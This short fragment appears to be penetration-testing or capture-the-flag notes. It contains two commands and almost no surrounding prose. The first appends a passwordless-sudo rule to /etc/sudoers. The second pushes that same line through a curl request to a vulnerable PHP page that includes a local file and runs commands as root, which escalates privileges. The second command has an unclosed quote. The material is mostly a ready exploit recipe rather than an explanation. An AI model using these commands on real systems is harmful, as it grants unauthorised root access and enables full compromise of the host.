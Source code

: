 #### Add user to /etc/sudoers file
```bash - target
echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

#### curl LFI page ran as root
```bash - kali
curl $TARGET:8080/start_page.php?page=cmd.php --data "cmd=echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

